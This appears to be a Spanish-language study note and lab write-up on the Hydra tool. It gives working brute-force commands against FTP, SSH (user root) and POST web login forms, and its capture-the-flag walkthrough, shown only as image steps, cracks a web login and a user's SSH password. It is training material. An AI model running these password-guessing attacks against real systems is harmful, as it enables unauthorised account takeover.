 <h2>Comandos Hydra</h2>
Las opciones que le pasemos a Hydra dependerán de qué servicio (protocolo) estemos intentando atacar. Por ejemplo, si queremos atacar el srvicio FTP con el nombre de usurio `user` y la lista de contraseñas `passlist.txt`, usaríamos el siguiente comendo:

`hydra -l user -P passlist.txt ftp://IP`

Aquí vemos algunos comandos tanto para SSH como para formulario web (POST).

---------------------------
<h2>SSH</h2>
`hydra -l <username> -P <full path to pass> <IP> -t <number> ssh`

| Opción | Descripción                              |
| ------ | ---------------------------------------- |
| `-l`   | Especifica el usuario para el loguin SSH |
| `-P`   | Indica la lista de contraseñas.          |
| `-t`   | Configura el número de hilos que usar    |
Por ejemplo, `hydra -l root -P passwords.txt 10.10.141.231 -t 4 ssh` lanzará un ataque de fuerza bruta contra el puerto 22 de la IP `10.10.141.231` con 4 hilos al usuario `root` con la lista de contraseñas `passwords.txt`.

-------------------------
<h2>POST Web Form</h2>
Podemos usar Hydra para bruteforcear formularios web también. Debemos saber qué tipo de petición se está haciendo (GET/POST).

`sudo hydra <username> <wordlist> <IP> http-post-form "<path>:<login_credentials>:<invalid_response>"`

| Opción                | Descripción                                                                                            |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| `-l`                  | El nombre de usuario para el login                                                                     |
| `-P`                  | La lista de contraseñas                                                                                |
| `http-post-form`      | El tipo de formulario es POST                                                                          |
| `<path>`              | La URL de login, por ejemplo `login.php`                                                               |
| `<login_credentials>` | El nombre de usuario y contraseña usados para loguearse, por ejemplo `username=^USER^&password=^PASS^` |
| `<invalid_response>`  | Parte de la respuesta cuando el login falla                                                            |
| `-V`                  | Output verboseado para cada intento                                                                    |
Por ejemplo:

`hydra -l username -P wordlist 10.10.141.231 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- La página de login es la dirección principal (`/`).
- El nombre de usuario es `username`.
- Dicho nombre de usuario reemplazará a ^USER^.
- La lista de contraseñas es `wordlist`.
- Dichas contraseñas sustituirán a ^PASS^.
- Finalmente, `F=incorrect` es una string que aparecerá si el login en el servidor falla.

-----------------------
<h2>Challenge</h2>
1. Abrimos la página dada:
   ![[150.png]]
2. Comprobamos el método, en este caso POST:
   ![[151.png]]
3. Lanzamos hydra con los parámetros correspondientes:
   ![[152 1.png]]
4. Obtenemos la contraseña:
   ![[153.png]]
5. Entramos y obtenemos la flag:
   ![[154.png]]
6. Usamos hydra para romper la contraseña ssh de molly:
   ![[155.png]]
7. Entramos por ssh y obtenemos la flag:
   ![[156.png]]

